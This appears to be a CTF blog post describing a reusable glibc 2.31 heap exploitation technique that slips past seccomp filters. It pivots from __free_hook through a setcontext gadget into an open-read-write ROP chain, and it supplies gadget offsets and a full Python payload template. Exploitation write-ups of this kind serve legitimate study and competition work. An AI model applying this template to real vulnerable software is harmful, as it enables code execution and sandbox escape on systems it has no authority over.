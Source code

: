 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Glibc 2.31 Heap + Seccomp Exploitation Technique using ROP"
subtitle: ""
summary: "My technique of solving glibc 2.31 heap challenges with seccomp"
authors: [midas]
tags: []
categories: []
date: 2021-01-03T04:40:50-08:00
lastmod: 2021-01-03T04:40:50-08:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


## Introduction
*In this post, I assume that readers are somewhat comfortable with heap exploitation. If you are not, you can start with other simpler techniques available on the Internet to get used to it first.*

Recently, I have seen a lot of glibc 2.31 heap pwning challenges in various CTFs that include `seccomp` filters which prevent you from directly overwrite `__free_hook` with `one_gadget` to pop a shell. I have also read some writeups of different CTF players using different techniques to workaround the `seccomp` filters, but it seems that no one has written about a generalized exploitation technique for this kind of challenge. Therefore in this blog post, I will demonstrate the technique I use, analyze how it works and provide you with a template that can be reused if the pre-requisites are met.

## Pre-requisites
For this technique to be successfully executed, the following conditions must be met:
- You can leak `libc` and `heap`'s base addresses. 
- You have a primitive that can overwrite `__free_hook`.
- My ROP chain is an `open-read-write` chain, which means that the only syscalls that need to be allowed by `seccomp` are `open`, `read` and `write` (this is true for most challenges). It doesn't need `mmap` or `mprotect` to work.
- You can write to a heap chunk that is large enough to contain the payload, which is 0x168 bytes, if it's too much, you can consider using other shorter payloads with `mprotect` or `mmap`, but the idea is the same (and of course you must be able to `free` that chunk).
- You know the absolute path to `flag` file (which you can most of the time ask the organizers).

## Gadgets
As I mentioned in the title, this technique is a ROP chain on the heap, and with ROP, the most important things are the gadgets. All the gadgets that are used in this technique are in `libc` itself, the `libc-2.31.so` version I used here has `md5sum` of `1ec728d58f7fc0d302119e9bb53050f8`. If you have a `libc-2.31.so` that has different checksum, the offset might be different, but the gadgets should still be there. Below are the gadgets I use:

Firstly, the ordinary gadgets that deal with manipulating registers and `syscall`:
```python
# l.address is leaked base of libc
pop_rdi = l.address + 0x26b72
pop_rsi = l.address + 0x27529
pop_rdx_r12 = l.address + 0x11c371
push_rax = l.address + 0x45197
pop_rax = l.address + 0x4a550
xchg_eax_edi = l.address + 0x2ad2b
syscall_ret = l.address + 0x66229
```

All the gadgets except `syscall_ret` can be found using this [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool. For `syscall_ret`, you can use this command (thanks `@Catafact` for this): 
```
objdump -D -Mintel ./libc-2.31.so | grep -B 1 ret | grep -A 1 syscall
``` 

The next 2 gadgets are crucial for this technique, the first one is at `call_gadget = l.address + 0x154930`:
```asm
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```

This gadget is what we will overwrite `__free_hook` with. It allows us to call an arbitrary function through `rdx`, if we control `rdi`, which is exactly the parameter that will be passed to `free()`. 

The next gadget is inside libc function `setcontext()`, at offset `setcontext_gadget = l.address + 0x580DD`:
```asm
mov     rsp, [rdx+0A0h]
mov     rbx, [rdx+80h]
mov     rbp, [rdx+78h]
mov     r12, [rdx+48h]
mov     r13, [rdx+50h]
mov     r14, [rdx+58h]
mov     r15, [rdx+60h]
test    dword ptr fs:48h, 2
jz      loc_581C6

loc_581C6:
mov     rcx, [rdx+0A8h]
push    rcx
mov     rsi, [rdx+70h]
mov     rdi, [rdx+68h]
mov     rcx, [rdx+98h]
mov     r8, [rdx+28h]
mov     r9, [rdx+30h]
mov     rdx, [rdx+88h]
xor     eax, eax
ret
```
Because we control `rdx`, this gadget allows us to set almost every registers (with the exception of `rax`, `r10` and `r11`).

## The payload
My payload can be divided into 3 parts, which I will explain one by one. 

The first part:
```python
base = heap + <.....>             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
payload += p64(base)              # <-- [rdi + 8] = rdx
payload += b"B"*0x10              # padding
payload += p64(setcontext_gadget) # <-- [rdx + 0x20]
```
This is the `base` of our payload, where `rdi` will be pointed to when `free()` is called. I set `[rdi + 8]` to also be `base`, so that when `mov rdx, [rdi+8]` is executed, `rdx` will also point at `base`. Then `[rdx + 0x20]` will be the address of the `setcontext()` gadget, which will be called.

The second part, which will be utilized after `setcontext_gadget` is called:
```python
payload += p64(0)                 # <-- [rdx + 0x28] = r8
payload += p64(0)                 # <-- [rdx + 0x30] = r9
payload += b"A"*0x10              # padding
payload += p64(0)                 # <-- [rdx + 0x48] = r12
payload += p64(0)                 # <-- [rdx + 0x50] = r13
payload += p64(0)                 # <-- [rdx + 0x58] = r14
payload += p64(0)                 # <-- [rdx + 0x60] = r15
payload += p64(base + 0x258)      # <-- [rdx + 0x68] = rdi (ptr to flag path)
payload += p64(0)                 # <-- [rdx + 0x70] = rsi (flag = O_RDONLY)
payload += p64(0)                 # <-- [rdx + 0x78] = rbp
payload += p64(0)                 # <-- [rdx + 0x80] = rbx
payload += p64(0)                 # <-- [rdx + 0x88] = rdx 
payload += b"A"*8                 # padding
payload += p64(0)                 # <-- [rdx + 0x98] = rcx 
payload += p64(base + 0x1b0)      # <-- [rdx + 0xa0] = rsp, perfectly setup for it to ret into our chain
payload += p64(pop_rax)           # <-- [rdx + 0xa8] = rcx, will be pushed to rsp
```
With the comments, it is self-explanatory. This is where all the registers are set based on `rdx`. Even though there are lots of registers to set, I'm only interested at `rdi` and `rsi`, which will be the parameters to `sys_open`, along with `rcx` and `rsp`, which must be carefully set so that after `push rcx` is executed, `rsp` must be in the correct position to execute the third part, which is the ROP chain on the heap, `rcx` is set to `pop_rax` gadget to start the chain.

The third part:
```python
payload += p64(2)
payload += p64(syscall_ret) # sys_open("/path/to/flag", O_RDONLY)
payload += p64(xchg_eax_edi)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # destination buffer, can be anywhere readable and writable
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(0)
payload += p64(syscall_ret) # sys_read(eax, heap + 0x15000, 0x100)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # buffer
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(1)
payload += p64(syscall_ret) # sys_write(1, heap + 0x15000, 0x100)
payload += b"/path/to/flag"
```
Nothing much to say about this part, if you know ROP, you know that this is an ordinary `open-read-write` chain.

After allocating this `payload` and overwriting `__free_hook` with the `call_gadget`, calling `free()` on it will execute the chain and print out the `flag`.

## Examples
Here are some writeups to challenges that me and my team solved using this technique:
- [TetCTF2021 - cache_v1 & cache_v2](https://blog.efiens.com/post/tetctf2021-pwn-writeups/) by `@midas` (me).
- [ASCIS/SVATTT2020 Finals - Secret Keeper](https://blog.efiens.com/post/ascis2020-final-secret-keeper/) by `@pickaxe`

